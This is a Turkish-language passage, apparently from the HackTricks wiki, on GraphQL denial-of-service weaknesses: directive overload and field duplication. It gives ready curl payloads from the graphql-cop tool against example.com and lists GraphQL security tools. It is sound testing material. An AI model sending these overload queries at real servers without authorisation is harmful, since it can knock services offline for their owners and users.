**Yönerge Aşırı Yükleme** bir GraphQL sunucusu aşırı, tekrarlayan yönergelerle sorgulara izin verdiğinde meydana gelir. Bu, sunucunun ayrıştırıcısını ve yürütücüsünü aşırı yükleyebilir, özellikle sunucu aynı yönerge mantığını tekrar tekrar işliyorsa. Uygun doğrulama veya sınırlar olmadan, bir saldırgan, yüksek hesaplama veya bellek kullanımı tetiklemek için çok sayıda tekrarlayan yönerge içeren bir sorgu oluşturarak bunu istismar edebilir, bu da **Hizmetin Reddi (DoS)** ile sonuçlanabilir.


```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa }", "operationName": "cop"}' \
'https://example.com/graphql'
```


Önceki örnekte `@aa`'nın **tanımlanmamış olabileceğini** unutmayın. Genellikle mevcut olan yaygın bir direktif **`@include`**'dır:


```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @include(if: true) @include(if: true) @include(if: true) @include(if: true) @include(if: true) }", "operationName": "cop"}' \
'https://example.com/graphql'
```


Açıklanan tüm direktifleri keşfetmek için bir introspection sorgusu da gönderebilirsiniz:
```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "{ __schema { directives { name locations args { name type { name kind ofType { name } } } } } }"}' \
'https://example.com/graphql'
```
Ve sonra **bazı özel olanları** kullanın.

### **Alan Çoğaltma Açığı**

**Alan Çoğaltma**, bir GraphQL sunucusunun aynı alanın aşırı şekilde tekrarlandığı sorgulara izin verdiği bir açıdır. Bu, sunucunun her örnek için alanı gereksiz yere çözmesini zorlar ve önemli kaynakları (CPU, bellek ve veritabanı çağrıları) tüketir. Bir saldırgan, yüzlerce veya binlerce tekrar eden alanla sorgular oluşturabilir, bu da yüksek yük oluşturur ve potansiyel olarak bir **Hizmet Reddi (DoS)** durumuna yol açabilir.
```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" -H "Content-Type: application/json" \
-d '{"query": "query cop { __typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n} ", "operationName": "cop"}' \
'https://example.com/graphql'
```
## Araçlar

### Güvenlik açığı tarayıcıları

* [https://github.com/dolevf/graphql-cop](https://github.com/dolevf/graphql-cop): graphql uç noktalarının yaygın yanlış yapılandırmalarını test edin
* [https://github.com/assetnote/batchql](https://github.com/assetnote/batchql): Toplu GraphQL sorguları ve mutasyonları gerçekleştirmeye odaklanan GraphQL güvenlik denetim scripti.
* [https://github.com/dolevf/graphw00f](https://github.com/dolevf/graphw00f): Kullanılan graphql'yi parmak izi ile tanımlayın
* [https://github.com/gsmith257-cyber/GraphCrawler](https://github.com/gsmith257-cyber/GraphCrawler): Şemaları almak ve hassas verileri aramak, yetkilendirmeyi test etmek, şemaları kaba kuvvetle denemek ve belirli bir türe giden yolları bulmak için kullanılabilecek araç seti.
* [https://blog.doyensec.com/2020/03/26/graphql-scanner.html](https://blog.doyensec.com/2020/03/26/graphql-scanner.html): Bağımsız olarak veya [Burp uzantısı](https://github.com/doyensec/inql) olarak kullanılabilir.
* [https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap): Saldırıları otomatikleştirmek için CLI istemcisi olarak da kullanılabilir
* [https://gitlab.com/dee-see/graphql-path-enum](https://gitlab.com/dee-see/graphql-path-enum): **Bir GraphQL şemasında belirli bir türe ulaşmanın farklı yollarını** listeleyen araç.
* [https://github.com/doyensec/GQLSpection](https://github.com/doyensec/GQLSpection): InQL'nin Bağımsız ve CLI Modlarının Halefidir
* [https://github.com/doyensec/inql](https://github.com/doyensec/inql): Gelişmiş GraphQL testi için Burp uzantısı. _**Tarayıcı**_ InQL v5.0'ın merkezidir, burada bir GraphQL uç noktasını veya yerel bir introspection şema dosyasını analiz edebilirsiniz. Tüm olası sorguları ve mutasyonları otomatik olarak oluşturur, bunları analiziniz için yapılandırılmış bir görünümde düzenler. _**Saldırgan**_ bileşeni, kötü uygulanmış oran sınırlamalarını aşmak için yararlı olabilecek toplu GraphQL saldırılarını gerçekleştirmenizi sağlar.
* [https://github.com/nikitastupin/clairvoyance](https://github.com/nikitastupin/clairvoyance): Bazı Graphql veritabanlarının yardımıyla, introspection devre dışı olsa bile şemayı almaya çalışın; bu veritabanları mutasyonların ve parametrelerin adlarını önerecektir.

### İstemciler

* [https://github.com/graphql/graphiql](https://github.com/graphql/graphiql): GUI istemcisi
* [https://altair.sirmuel.design/](https://altair.sirmuel.design/): GUI İstemcisi

### Otomatik Testler



* AutoGraphQL'ü açıklayan video: [https://www.youtube.com/watch?v=JJmufWfVvyU](https://www.youtube.com/watch?v=JJmufWfVvyU)

## Referanslar

* [**https://jondow.eu/practical-graphql-attack-vectors/**](https://jondow.eu/practical-graphql-attack-vectors/)
* [**https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696**](https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)
* [**https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4**](https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4)
* [**http://ghostlulz.com/api-hacking-graphql/**](http://ghostlulz.com/api-hacking-graphql/)
* [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)
* [**https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696**](https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)
* [**https://portswigger.net/web-security/graphql**](https://portswigger.net/web-security/graphql)

<figure><figcaption></figcaption></figure>

Mobil Güvenlikte uzmanlığınızı **8kSec Akademi** ile derinleştirin. Kendi hızınıza uygun kurslarımızla iOS ve Android güvenliğini öğrenin ve sertifika alın:




AWS Hacking'i öğrenin ve pratik yapın:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
GCP Hacking'i öğrenin ve pratik yapın: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>

